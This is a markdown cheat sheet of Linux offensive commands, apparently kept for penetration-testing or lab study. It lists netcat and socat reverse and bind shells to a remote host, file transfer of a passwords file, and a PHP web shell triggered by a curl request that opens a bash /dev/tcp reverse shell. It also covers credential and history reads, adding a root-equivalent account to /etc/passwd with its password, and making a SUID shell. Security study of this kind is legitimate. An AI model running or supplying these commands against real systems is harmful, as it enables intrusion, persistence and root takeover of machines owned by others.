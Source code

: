 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) for enumeration
- [GTFObins](https://gtfobins.github.io/)
- Kernal exploits [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

- id; uname -a; whoami
- hostname
- `cat /etc/issue` `cat /etc/*-releas` `uname -r` `arch` 
- cat /etc/passwd
- cat `~/.*history`
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
- Networking info `/sbin/route` `ip a`
- Connections `ss -anp`
- Linux firewall `/etc/iptables`
- Cron jobs `ls -lah /etc/cron*` `cat /etc/crontab` `grep "CRON" /var/log/cron.log`
- Installed apps `dpkg -l`
- Writable `find / -writable -type d 2>/dev/null`
- Unmounted devices and listing other drives `cat /etc/fstab` `/bin/lsblk` `mount`
- Load drivers `lsmod` `/sbin/modinfo libata`
- SUID files `find / -perm -u=s -type f 2>/dev/null`
- Writable /etc/passwd `echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd` `su root2` password is `evil`
- Stickybit `cp /bin/sh /tmp/sh;chmod 4755 /tmp/sh;` # now `/tmp/sh -i`
